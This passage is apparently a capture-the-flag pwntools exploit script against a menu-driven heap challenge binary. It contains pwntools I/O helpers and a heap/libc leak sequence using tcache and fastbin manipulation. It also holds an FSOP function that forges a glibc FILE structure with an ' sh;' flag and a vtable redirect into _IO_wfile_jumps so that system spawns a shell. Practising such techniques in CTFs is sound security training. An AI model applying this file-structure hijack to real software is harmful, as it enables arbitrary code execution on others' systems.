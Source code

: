 ```python
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# FSOP
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val    

def fsrop(fp=libc.sym._IO_2_1_stdout_, offset=0x18):
    fs = IO_FILE_plus_struct()
    fs.flags = b"  sh;".ljust(0x8,b"\x00")   
    fs._IO_read_end = fp
    fs._lock = fp+0x100
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym.system) + p64(fp + 0x60)
    fs.vtable = (libc.sym._IO_wfile_jumps + offset) - 0x18
    return bytes(fs)

def menu(op):
    sla(": ", str(op).encode())

def alloc(idx, content):
    menu(1)
    sla(": ", str(idx).encode())
    s(content)

def free(idx):
    menu(3)
    sla(": ", str(idx).encode())

def view(idx):
    menu(4)
    sla(": ", str(idx).encode())

def exploit():
    global io
    io = initialize()
    with log.progress("Leak heap & libc"), context.silent:
        for i in range(9):
            alloc(i, b"\x00")
        for i in reversed(range(7)):
            free(i)
        free(7)
        sla(": ", b"4".rjust(1024, b"0"))  # Using scanf to move fastbin to smallbins
        sla(": ", str(7).encode())
```